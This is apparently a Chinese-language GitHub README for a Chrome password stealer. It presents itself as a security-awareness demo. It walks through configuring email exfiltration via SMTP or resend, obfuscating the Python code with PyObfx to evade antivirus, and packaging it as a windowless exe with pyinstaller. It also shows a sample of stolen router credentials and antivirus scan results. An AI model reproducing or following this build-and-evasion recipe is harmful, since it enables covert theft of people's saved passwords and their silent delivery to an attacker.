


[中文](./README.md) | [English](./README_EN.md)

# InfoSec GoogleChrome

## 1 说明

本仓库的源码是基于[ohyicong](https://github.com/ohyicong/decrypt-chrome-passwords)进行的修改，主要用于演示打包一个杀毒软件无法察觉的程序，窃取用户在google上保存的密码。提示大家对信息安全的注意，和用google浏览器保存密码非常不安全的认识。

* 更新7/20 增加了resend邮件方式

## 2 使用

### 2.1 环境
* windows
* python3
* 克隆项目到本地
    ```bash
    git clone https://github.com/lissettecarlr/InfoSec-GoogleChrome.git
    cd InfoSec-GoogleChrome
    ```
* 安装依赖
    ```bash
    pip install -r requirements.txt
    ```
* 混淆器
    ```bash
    git clone https://github.com/PyObfx/PyObfx.git
    cd PyObfx
    pip install -r requirements.txt
    cd ..
    ```

### 2.2 配置

* 新建secret.yaml文件，填写邮箱信息（为了将获得的数据通过邮件发送）：
    ```yaml
        email:
            host : '邮箱服务器地址，例如：smtp.163.com'
            user : 'xxx'
            pass : '如果是163邮箱，则在网页版的设置中开启IMAP/SMTP服务后获得' 
            sender : '发送的邮箱'  
            receivers : '接收的邮箱（可以和发送邮箱相同）' 
        resend:
            key : 'resend.dev的key'
            from: 'resend的from'
            to: "注册resend的邮箱"
    ```    
    这里增加了[resend](https://resend.com/overview)邮件方式方式，需要你先去注册个账号，然后生成key。注意的是默认情况下，它的from和to是固定的，注册后在示例那里能看到。如果key不填写，则不使用该方式发生邮件
* 修改config文件，配置是否发送邮件，是否保存到本地的json文件
    ```yaml
        include : secret.yaml

        output:
            json: 'ON'
            email: 'ON'
            sender_email : 'ON'
    ``

### 2.3 打包    
* 对代码进行混淆
    ```bash
    python ./PyObfx/PyObfx.py decrypt_chrome_passwords.py
    ```

* 修改（混淆器漏掉的）
    ```python
    # 混淆后漏掉的示例，由于混淆不同所有下列知识对比参考。yaml没有混淆
    oYRvAuKk = mQaPXiYD.load(DA, Loader=yaml.Loader)
    # 根据你yaml的别名修改，如下
    import yaml as mQaPXiYD
    oYRvAuKk = mQaPXiYD.load(DA, Loader=mQaPXiYD.Loader)
    ```

* 打包成exe，在dist目录下生成exe文件
    ```bash
    pyinstaller -F --add-data "config.yaml;." --add-data "secret.yaml;." .\decrypt_chrome_passwords_obfx.py --noconsole
    ```

### 2.4 结果

如果打开了config中的json和email，那么在执行exe时会在当前目录生成output.json。
```json
[
    {
        "url": "http://192.168.2.1/cgi-bin/luci/",
        "username": "root",
        "p": "testtest"
    }
]
```

然后邮箱收到邮件：



上列条目数是根据你自己在google浏览器中保存的密码条目决定的,我这里是临时添加了一条，所有只有一条。


## 3 杀毒

* 火绒安全
    

* 顺便找的个在线查毒
    

